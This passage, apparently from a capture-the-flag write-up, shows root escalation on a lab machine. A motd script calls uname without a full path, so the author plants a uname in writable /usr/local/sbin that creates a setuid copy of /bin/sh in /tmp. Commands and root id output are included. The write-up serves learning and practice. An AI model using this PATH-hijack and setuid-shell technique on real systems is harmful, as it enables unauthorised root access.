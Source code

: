 ### Hijacking

If we look in the `/etc/update-motd.d` directory, we see only one file: `10-uname`

```bash
jkr@writeup:/tmp$ cd /etc/update-motd.d/
jkr@writeup:/etc/update-motd.d$ ls
10-uname
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
```

This script just runs `uname`, and luckily for us it's absolute path has not been defined. Remeber how we discovered earlier that we could write to `/usr/local/bin` and `/usr/local/sbin`? This will come in handy now, as we can create a new script that will be run as root.

### Root!

Our malicious file is going to make a copy of `/bin/sh` in our `/tmp` directory and add execute and setuid permissions so that we can run it as root.

```bash
jkr@writeup:/tmp$ echo '#!/bin/sh' > /usr/local/sbin/uname
jkr@writeup:/tmp$ echo 'cp /bin/sh /tmp/rootsh; chmod +xs /tmp/rootsh' >> /usr/local/sbin/uname
jkr@writeup:/tmp$ chmod +x /usr/local/sbin/uname
```

Now, let's login with ssh again and we should be able to run `sh` as root.

```bash
jkr@writeup:/tmp$ ls
pspy64  rootsh  vmware-root
jkr@writeup:/tmp$ ./rootsh
# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev),1000(jkr)
```
We have root! Our `uid` and `gid` are still 1000, but our `euid` and `egid` are 0 and we're part of the `root` group, so we are able to get the flag.

